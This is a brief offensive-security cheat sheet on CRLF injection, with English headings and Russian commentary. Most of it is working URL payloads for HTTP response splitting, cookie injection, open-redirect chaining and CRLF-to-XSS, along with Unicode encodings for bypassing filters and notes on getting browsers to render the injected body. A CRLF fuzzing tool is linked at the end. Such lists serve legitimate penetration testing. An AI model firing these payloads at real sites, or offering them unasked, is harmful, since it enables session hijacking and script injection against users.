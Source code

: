 # CRLF

### Basic CheatSheet

```
1. HTTP Response Splitting
• /%0D%0ASet-Cookie:mycookie=myvalue
• https://subdomain.redacted.com/%3f%0d%0aLocation:%0d%0aContent-Type:text/html%0d%0aX-XSS-Protection%3a0%0d%0a%0d%0a%3Cscript%3Ealert%28document.domain%29%3C/script%3E

2. CRLF chained with Open Redirect
• //www.google.com/%2F%2E%2E%0D%0AHeader-Test:test2                    
• /www.google.com/%2E%2E%2F%0D%0AHeader-Test:test2                       
• /google.com/%2F..%0D%0AHeader-Test:test2
• /%0d%0aLocation:%20http://example.com

3. CRLF Injection to XSS
• /%0d%0aContent-Length:35%0d%0aX-XSS-Protection:0%0d%0a%0d%0a23
• /%3f%0d%0aLocation:%0d%0aContent-Type:text/html%0d%0aX-XSS-Protection%3a0%0d%0a%0d%0a%3Cscript%3Ealert%28document.domain%29%3C/script%3E

4. Filter Bypass
• %E5%98%8A = %0A = \u560a
• %E5%98%8D = %0D = \u560d
• %E5%98%BE = %3E = \u563e (>)
• %E5%98%BC = %3C = \u563c (<)
• Payload = %E5%98%8A%E5%98%8DSet-Cookie:%20test
```

### CRLF in Location

Когда у тебя есть CRLF в заголовке Location при редиректе, ты можешь попробовать превратить CRLF в полноценную XSS.\
Браузеры не рендерят тело в ответе, где присутствует перенаправление. Однако, редирект можно прервать и тогда тело отобразится. Как завещал BlackFan ([https://blog.blackfan.ru/2017/09/devtwittercom-xss.html](https://blog.blackfan.ru/2017/09/devtwittercom-xss.html)):\
&#x20;_Для браузера Chrome необходимо, чтобы сервер вернул пустой заголовок Location._ Для FF чуть проще, нужно контролировать порт домена, куда происходит редирект, указав unsafe port, например 1 или 22.

## Tools

CRLF Fuzz (Go): [https://github.com/dwisiswant0/crlfuzz](https://github.com/dwisiswant0/crlfuzz)

